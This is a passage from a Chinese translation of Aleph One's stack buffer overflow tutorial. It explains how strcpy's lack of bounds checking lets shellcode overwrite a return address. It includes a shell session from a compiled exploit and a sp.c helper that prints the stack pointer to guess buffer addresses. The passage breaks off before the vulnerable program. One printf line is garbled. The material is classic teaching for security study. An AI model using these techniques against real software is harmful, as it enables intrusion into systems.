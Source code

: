 [aleph1]$ ./exploit1

$ exit

exit
  
[aleph1]$

------------------------------------------------------------------------------

&nbsp; &nbsp; 如上所示, 我们用buffer[]的地址来填充large_string[]数组, shellcode就将会在

buffer[]之中. 然后我们把shellcode复制到large_string字串的开头. strcpy()不做任

何边界检查就会将large_string复制到buffer中去, 并且覆盖返回地址. 现在的返回地址

就是我们shellcode的起始位置. 一旦执行到main函数的尾部, 在试图返回时就会跳到我

们的shellcode中, 得到一个shell.

&nbsp; &nbsp; 我们所面临的问题是: 当试图使另外一个程序的缓冲区溢出的时候, 如何确定这个

缓冲区(会有我们的shellcode)的地址在哪? 答案是: 对于每一个程序, 堆栈的起始地址

都是相同的. 大多数程序不会一次向堆栈中压入成百上千字节的数据. 因此知道了堆栈

的开始地址, 我们可以试着猜出这个要使其溢出的缓冲区在哪. 下面的小程序会打印出

它的堆栈指针: 

sp.c

------------------------------------------------------------------------------

unsigned long get_sp(void) {

&nbsp; &nbsp;__asm__("movl %esp,%eax");

}

void main() {

&nbsp;&nbsp;printf("0x%x"n", get_sp());

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ ./sp

0x8000470
  
[aleph1]$

------------------------------------------------------------------------------

&nbsp; &nbsp; 假定我们要使其溢出的程序如下:

&nbsp; &nbsp; 

vulnerable.c
